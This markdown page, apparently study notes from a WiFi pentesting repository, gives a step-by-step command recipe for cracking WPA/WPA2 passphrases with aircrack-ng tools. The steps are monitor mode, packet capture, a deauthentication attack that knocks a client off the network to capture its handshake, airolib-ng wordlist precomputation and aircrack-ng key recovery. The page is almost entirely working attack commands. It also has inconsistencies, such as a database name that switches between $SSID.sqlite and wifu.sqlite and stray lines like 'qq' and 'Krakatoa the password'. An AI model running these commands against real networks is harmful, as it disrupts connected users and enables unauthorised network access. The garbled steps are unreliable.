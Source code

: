 # Airolib-ng with Aircrack-ng (WPA/WPA2)

Setting up and using the `airolib-ng` tool with `aircrack-ng` suite of tools to crack the secret.

## Commands

* Run [setup](../../setup.md) first
* Two terminals are needed
* At least on client associated with the AP

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $INTERFACE

# Start monitoring to collect data
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG --output-format pcap $INTERFACE

# [Terminal Two]
# Run the deauthentication attack to get four-way handshake
sudo aireplay-ng --deauth 1 -a $BSSID -c $CLIENT $INTERFACE

# Wait for the four-way handshake to appear in airodump-ng window.

# Stop airodump-ng when it appears
qq

# Create list of one or more SSIDs
echo $SSID > $SSID.txt

# Import that list into a new airolib-ng database
airolib-ng $SSID.sqlite --import essid $SSID.txt

# Query the imported list
airolib-ng $SSID.sqlite --stats

# Import John's password WORDLIST
airolib-ng $SSID.sqlite --import passwd $WORDLIST

# Batch process the WORDLIST for each SSID
airolib-ng wifu.sqlite --batch

# Query the results
airolib-ng wifu.sqlite --stats

# Krakatoa the password
aircrack-ng -0 -r $SSID.sqlite $PCAP
```

## References

* [Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=aircrack-ng)
* [Airolib-ng](https://www.aircrack-ng.org/doku.php?id=airolib-ng)
* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)
